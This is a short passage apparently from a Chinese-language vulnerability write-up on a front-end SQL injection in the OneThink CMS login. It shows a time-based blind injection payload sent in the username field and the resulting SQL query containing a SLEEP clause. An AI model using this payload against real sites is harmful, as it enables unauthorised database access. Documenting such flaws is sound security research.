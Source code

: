     SELECT * FROM `onethink_ucenter_member` WHERE ( `username` 
    IN (''))  AND (SELECT 1 FROM (SELECT SLEEP(4))X)-- - () ) LIMIT 1

**payload2-exp注入**

    username[0]=exp&username[1]=>(select 1 from (select sleep(3))x)&password=2&verify=0x401

![9.png](resource/OneThink前台注入/media/rId33.png)

实际执行SQL语句
